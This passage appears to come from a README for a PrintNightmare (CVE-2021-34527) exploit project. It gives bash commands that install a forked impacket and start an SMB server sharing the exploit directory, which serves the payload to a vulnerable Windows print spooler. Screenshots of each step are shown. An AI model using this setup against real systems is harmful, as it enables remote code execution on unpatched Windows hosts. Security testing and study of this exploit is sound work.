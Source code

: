 **Install and Launch SMB Server**
```bash
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install
python3 smbserver.py share ~/PrintNightmare-CVE-2021-34527/ -smb2supp
```
![uninstalling original impacket](images/delete_impacket.png) <br />
![git clone](images/gitclone.png) <br />
![install impacket](images/install_impacket.png) <br />
![starting smb server](images/run_smb.jpg)
